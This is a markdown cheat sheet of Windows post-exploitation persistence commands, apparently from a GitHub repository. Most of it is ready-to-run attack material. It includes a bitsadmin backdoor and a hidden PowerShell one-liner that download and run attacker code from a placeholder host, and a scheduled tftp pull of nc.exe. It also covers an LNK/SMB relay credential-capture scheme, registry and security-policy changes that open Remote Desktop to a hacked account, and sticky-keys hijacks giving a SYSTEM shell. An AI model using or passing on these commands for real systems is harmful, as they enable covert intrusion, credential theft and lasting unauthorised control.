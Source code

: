 <!-- Code for collapse and expand -->
<script type="text/javascript"> 
$(document).ready(function() { 
$('div.view').hide(); 
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast'); 
return false; 
}); 
}); 
</script>

# Windows General Persistence Commands

Commands to run to maintain persistence after you have exploited it and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.


### BITSADMIN Backdoor
Slide #49 of [this slide deck](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607) starts a method of using the `bitsadmin` command (http://msdn.microsoft.com/en-us/library/aa362813(v=vs.85).aspx) to create a backdoor. The steps are as follows:

#### Creating the backdoor
<pre>
c:\> bitsadmin /create mybackdoor
c:\> bitsadmin /addfile mybackdoor http://[AttackerIP]/[AttackerBinary.exe] c:\windows\temp\[AttackerBinary.exe]
c:\> bitsadmin /SETMINRETRYDELAY mybackdoor 86400
c:\> bitsadmin /SETNOTIFYCMDLINE mybackdoor c:\windows\temp\[AttackerBinary.exe] NULL
</pre>

#### Checking to see if everything is set
<pre>
c:\> bitsadmin /getnotifycmdline mybackdoor
c:\> bitsadmin /listfiles mybackdoor
c:\> bitsadmin /RESUME mybackboor
</pre>


### Firewall Exceptions
When you modify a system to talk on the network, you may need to alter the Windows firewall so your traffic is not filtered. The `netsh` command can be used to do this as the command to enable Remote Desktop Protocol below shows:

`netsh firewall set service type = remotedesktop mode = enable`


### LNK (Shortcuts with UNC Icons #61
If you are on an internal penetration test and either exploit a machine or find an open share, you can create an LNK file with an icon that points at a nonexistent share on your attacking machine's IP and use SMB_Relay to replay those credentials to a system in which we've identified by one means or another as an 'important' host to get on.

Attacker uploads malicious LNK file to network share on FILE SHARE

Victim views it on WORKSTATION that initiates an connection to ATTACKER

Attacker relays those authentication attempts to FILE SHARE, gaining code execution if 'Victim' is an admin on FILE SHARE

If not, then NetNTLM are still visible in the logs and can be attempted to crack, or just wait for more people to view the LNK file on the public share, and hope that an admin comes by at some point.

Your mileage will vary based on where you put the LNK file.


### Powershell Downloader
 * **Command with arguments**: `powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://[domainname|IP]:[port]/[file]'))"`
 * **Description**: According to [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), _"Schedule this and it will execute the shellcode on that page, pulling it each time (so you can change as needed)"_. 


### Remote Assistance Enable
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f`
 * **Description**: **Must be admin to run this.** Enable remote assistance through adding a registry entry on the local system.


### Remote Desktop Enable - Method 1
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f`
 * **Description**: **Must be admin to run this.** Enable remote desktop through adding a registry entry on the local system. 


### Remote Desktop Enable - Method 2
Remote Desktop allows a remote user to receive a graphical "desktop" of the target (compromised) system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 53)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely enable remote desktop using the commands below.

 1. On the compromised system, create a file named `fix_ts_policy.ini` containing the contents below. Change the *"hacked_account"* value to the account you have compromised on the remote system.

    <pre>
     [Unicode]
         Unicode=yes
         [Version]
         signature="$CHICAGO$"
         Revision=1
         [Privilege Rights] [Privilege Rights]
         seremoteinteractivelogonright = hacked_account
         seinteractivelogonright = hacked_account
         sedenyinteractivelogonright =
         sedenyremoteinteractivelogonright =
         sedenynetworklogonright =
    </pre>

 1. Create another file named `enable_ts.reg` containing the contents below. 

    <pre>
     Windows Registry Editor Version 5.00
     [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]
     "fDenyTSConnections"=dword:00000000
     "TSEnabled"=dword:00000001
     "TSUserEnabled"=dword:00000000
    </pre>

 1. On the remote system, execute the following commands:
      
    <pre>c:\> sc config termservice start= auto sc config termservice start= auto
    c:\> regedit /s enable_ts.reg
    c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb
    c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb
    c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini
    c:\> gpupdate /Force
    c:\> net start "terminal services"
    </pre>


### Scheduler
The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. It usually runs at the SYSTEM account privilege level. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.

<pre>
c:\> net use \\[TargetIP]\ipc$ password /user:username
c:\> at \\[TargetIP] 12:00 pm command
</pre>

An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`


### Sticky Keys (Requires reboot)
Sticky keys on Windows systems are activated when the user presses the SHIFT key 5 times. Here, according to the [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), you replace the sethc.exe binary with your own binary (cmd.exe maybe?) and, when SHIFT is pressed 5 times, your binary is executed. Your binary will execute as SYSTEM and needs to replace the `%WINDIR%\System32\sethc.exe`. 

Some caveats:
* If NLA (Network Layer Authentication) is enabled, this won't work
* If RDP (Remote Desktop Protocol) is disabled, this won't work


### Sticky Keys (No reboot)
This technique uses registry entries to switch the binary that the sticky keys executes. Its real advantage is that it does not require a reboot for the switch to take place. 
* In the `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` make a key called `sethc.exe`
* Make a REG_SZ value called "Debugger" (Ensure it is capitalized)
* For the "Debugger" REG_SZ, make it have a value of your binary
* Press SHIFT 5 times and your binary should be executed